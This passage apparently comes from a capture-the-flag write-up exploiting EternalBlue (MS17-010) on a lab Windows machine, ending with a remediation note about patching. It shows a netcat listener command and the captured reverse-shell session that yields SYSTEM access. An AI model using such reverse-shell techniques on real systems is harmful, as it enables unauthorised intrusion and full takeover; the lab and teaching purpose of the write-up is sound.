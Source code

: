 **Note**: you have to launch the exploit a few times if it appears not to be working.

Here is the shell on my machine:

{{< highlight html >}}
nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49298
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
{{< /highlight >}}

And I am already **SYSTEM**! No privilege escalation is needed!

**Note**: flags are under `\Administrator\Desktop` and `\Users\Desktop`.

## Lessons learned and remediations

- The machine was not patched against the well know **EternalBlue** exploit, also known as **MS17-010**. The administrator should have updated the machine. 
